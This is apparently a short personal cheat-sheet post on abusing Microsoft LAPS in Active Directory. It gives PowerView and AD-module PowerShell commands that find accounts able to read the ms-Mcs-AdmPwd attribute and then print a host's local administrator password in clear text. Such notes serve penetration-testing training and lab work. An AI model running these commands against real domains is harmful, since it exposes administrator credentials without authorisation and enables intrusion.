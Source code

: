 ```yaml
---
layout: post
date: 23/11/2022
author: Aswin Gopalakrishnan
title: LAPS Abuse
---
```


## PowerView

### Find Users Who Can Read Passwords in Clear Text
```bash
Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | Where-Object {
    ($_.ObjectAceType -like 'ms-Mcs-AdmPwd') -and
    ($_.ActiveDirectoryRights -match 'ReadProperty')
} | ForEach-Object {
    $_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier); $_
}
```

## AD Module

1. Import All Module
```bash
Import-Module C:\AD\Tools\ADModule-master\Microsoft.ActiveDirectory.Management.dll
Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
Import-Module C:\AD\Tools\AdmPwd.PS\AdmPwd.PS.psd1 -Verbose
```
2. Get Permissions
```
C:\AD\Tools\Get-LapsPermissions.ps1
```
3. View Password
```bash
Get-ADComputer -Identity us-mailmgmt -Properties ms-mcs-admpwd | select -ExpandProperty ms-mcs-admpwd
Get-AdmPwdPassword -ComputerName us-mailmgmt
```
The `Get-AdmPwdPassword` command uses the LAPS module.

---

[back](/docs/AD/adprivesc.html)